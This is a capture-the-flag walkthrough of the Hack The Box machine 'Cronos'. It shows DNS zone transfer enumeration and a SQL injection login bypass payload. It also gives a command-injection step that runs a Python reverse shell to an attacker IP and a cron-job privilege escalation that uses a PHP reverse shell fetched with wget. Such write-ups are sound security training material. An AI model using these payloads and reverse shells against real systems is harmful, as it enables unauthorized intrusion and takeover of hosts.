# [Cronos](https://app.hackthebox.com/machines/Cronos)

```bash
nmap -p0-1023 -sC -sV 10.10.10.13
```



Let's add this ip address to '/etc/hosts' file.



Now, let's run dig(domain informatioin groper) to get the subdomains information.

```bash
dig axfr cronos.htb @10.10.10.13
```




Let's add these subdomains to our '/etc/hosts' file.

```bash
└─# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.10.13 cronos.htb
10.10.10.13 admin.cronos.htb
10.10.10.13 ns1.cronos.htb
10.10.10.13 www.cronos.htb
```


Let's do SQLI to 'admin.cronos.htb' subdomain.
For this, I catch request via proxy and send it to repeater.

Then start to do SQL injection attack with payloads.




And as a result, we see that below payloads can be used to bypass authentication.




username=>admin' #

password=>anything

We are on admin page.




We see that here we can execute command(command injection vulnerability).



We can see the version of python.




Now, it's time to have reverse shell.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We got reverse shell.






Let's spawn a shell with python.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

user.txt




Let's look at cron jobs. We see that there is a cron job that runs every minute, it artisan file.



We create our malicious php reverse shell file.




Now, it's time to send malicious php file into target machine.

```bash
python3 -m http.server --bind 10.10.16.7 8080   #open http server to send
```




```bash
wget http://10.10.16.7:8080/php-reverse-shell.php #to donwload malicious php file
```



And we replace our current artisan file with malicious php file.




root.txt


